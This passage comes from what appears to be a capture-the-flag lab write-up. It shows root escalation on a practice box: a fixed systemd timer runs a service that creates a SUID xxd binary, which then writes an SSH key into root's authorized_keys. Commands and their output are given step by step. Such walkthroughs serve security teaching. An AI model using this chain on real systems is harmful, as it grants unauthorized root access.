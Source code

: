 So, we can simply add the missing value to the unit file to resolve the error.

```console
comte@cheesectf:~$ nano /etc/systemd/system/exploit.timer
comte@cheesectf:~$ cat /etc/systemd/system/exploit.timer
[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=5s

[Install]
WantedBy=timers.target
```

Now, after reloading the configuration and starting the timer manually once more, we see that it successfully triggers the `exploit.service` and creates the `SUID` binary as expected.

```console
comte@cheesectf:~$ sudo /bin/systemctl daemon-reload
comte@cheesectf:~$ sudo /bin/systemctl start exploit.timer
comte@cheesectf:~$ systemctl status exploit.timer
● exploit.timer - Exploit Timer
     Loaded: loaded (/etc/systemd/system/exploit.timer; disabled; vendor preset: enabled)
     Active: active (elapsed) since Wed 2024-09-25 02:41:41 UTC; 4s ago
    Trigger: n/a
   Triggers: ● exploit.service
comte@cheesectf:~$ ls -la /opt
total 28
drwxr-xr-x  2 root root  4096 Sep 25 02:41 .
drwxr-xr-x 19 root root  4096 Sep 27  2023 ..
-rwsr-sr-x  1 root root 18712 Sep 25 02:41 xxd
```

Checking the [GTFObins](https://gtfobins.github.io/gtfobins/xxd/) page for the `xxd` binary, we see that it can be used for writing to files.

We can leverage this to add an SSH key for the `root` user.

```console
comte@cheesectf:~$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMh5/bXQHhNglSUiAYM7seONoiiQB7hVAr7HeeDaEIF0 kali@kali' | xxd | /opt/xxd -r - /root/.ssh/authorized_keys
```
{: .wrap }

Now, using the same key as before, we can SSH into the system and obtain a shell as the `root` user, allowing us to read the root flag.

```console
$ ssh -i id_ed25519 root@10.10.184.98
...
root@cheesectf:~# id
uid=0(root) gid=0(root) groups=0(root)
root@cheesectf:~# wc -c root.txt
321 root.txt
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>